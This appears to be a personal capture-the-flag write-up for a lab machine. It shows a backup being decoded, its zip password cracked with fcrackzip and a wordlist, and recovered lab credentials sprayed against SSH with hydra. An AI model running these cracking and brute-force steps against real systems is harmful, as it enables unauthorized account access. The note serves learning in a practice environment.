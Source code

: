 # 20 - MyplaceBackup



# Base64 encoded zip file

```bash
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node/server]
└─$ file myplace.backup 
myplace.backup: ASCII text, with very long lines, with no line terminators
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node/server]
└─$ base64 -d myplace.backup  > myplace
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node/server]
└─$ file myplace
myplace: Zip archive data, at least v1.0 to extract
```

# Again a password is required however all the passwords we acquired don't work on this zip.

```bash
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node/server]
└─$ unzip backup.zip 
Archive:  backup.zip
[backup.zip] var/www/myplace/package-lock.json password: 
```


# fcrackzip
I needed  to install it with `sudo apt install fcrackzip`
```bash
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node/server]
└─$ fcrackzip backup.zip -D -p /usr/share/wordlists/rockyou.txt 
possible pw found: magicword ()
```

# Trying password reuse on ssh, no luck :(
```bash
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node]
└─$ cat creds 
tom:spongebob
mark:snowflake
rastating:5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0
myP14ceAdm1nAcc0uNT:manchester
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node]
└─$ cat creds  | awk -F: '{print $1}' > users
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node]
└─$ cat creds  | awk -F: '{print $2}' > passwords
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node]
└─$ vi passwords # added  the backupfile 
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node]
└─$ hydra -L users  -P passwords ssh://10.10.10.58
1 of 1 target completed, 0 valid password found
```

# app.js

![](vx_images/1268110628722.png)

Highlighted url contains credentials to mongodb which again can be tried for password reuse

# Mark is a valid user on the box

![](vx_images/2468469529262.png)
